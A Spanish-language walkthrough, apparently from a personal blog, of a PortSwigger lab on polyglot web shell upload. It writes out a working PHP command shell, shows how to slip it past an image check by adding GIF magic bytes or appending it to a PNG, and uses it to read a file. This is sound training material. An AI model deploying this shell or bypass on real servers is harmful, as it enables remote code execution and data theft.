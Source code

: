 ```yaml
---
title: "Remote code execution via polyglot web shell upload"
description: "Laboratorio de Portswigger sobre File Upload Vulnerabilities"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Remote code execution via polyglot web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, aunque `verifica` el `contenido` del `archivo` para `confirmar` que es una imagen `genuina`, aún es posible cargar y `ejecutar código` del `lado` del `servidor`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_5.png)

`Subimos` el `archivo` nuevamente pero `capturamos` la `petición` con `Burspuite`, he probado a subir un archivo con `extensión .png` y con `Content-type: image:/png` pero nos sigue dando el mismo `error`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_6.png)

Esto puede ser debido a los `magic bytes` que tienen las imágenes [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures), en este caso he añadido `GIF8;` lo cual me ha permitido `bypassear` la `validación`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_7.png)

Otra forma de hacerlo sería `descargar` una `imagen` e `introducir` la `web shell` dentro. Al `capturar` la `petición` con `Burpsuite` se cambiaría la `extensión` de archivo a `.php` y se `enviaría`

```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_8.png)

Si accedemos a `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que hemos logrado un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_10.png)

`Obtenemos` el `contenido` del archivo secret `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_12.png)
